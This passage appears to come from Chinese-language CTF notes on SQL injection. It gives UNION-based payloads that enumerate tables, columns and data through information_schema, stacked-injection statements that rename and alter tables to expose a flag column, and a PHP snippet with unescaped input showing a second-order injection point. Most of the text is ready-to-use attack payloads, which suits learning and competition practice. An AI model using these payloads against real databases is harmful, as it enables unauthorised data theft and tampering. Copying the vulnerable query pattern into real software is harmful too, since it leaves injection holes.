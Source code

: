 **查数据库中表**

```sql
# 在第三个回显中显示数据库表
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() # 
# group_concat: 查询结果逗号连接成字符串
# table_name: 是系统数据库information_schema.tables中一个字段
# table_schema: 表所属数据库名称
# database(): 当前连接的数据库名称
```

**对表查列字段**

```sql
union select 1,2,group_concat(column_name)from information_schema.columns where table_name='leak_table_name'
```

**对数据表爆数据**

```sql
union select 1,2,group_concat(leak_column_name1, '-', leak_column_name2) from data_base_table_name # 或 from data_base_name.dtable_name
```

#### 堆叠注入

- 利用 `;` 在原SQL查询后追加新语句（有时需将前语句闭合）

**测试**

```mysql
1; show databases; # 获取数据库
1; show tables; # 查看所有数据表
# 继续查看表x和表123中内容
show columns from x; 
show columns from `123 `; # 需使用反引号
```

**替换**：利用改名，将本不可读取的表数据修改为可读取表中数据

```mysql
rename table t1 to t2; # 将t1表改名
alter table words add id int unsigned not Null auto_increment primary key; # 新表添加新列名:保持一致操作
alter table words change flag data varchar(100); # 改名flag为data
```

#### 二次注入

**漏洞点**

```php
mysql_query("insert into users(username, passwd, info) values ('{$username}', '{$password}', ' ');")
$info = query("select info from users where username='{$_SESSION['username']}';"); // 显示info
```

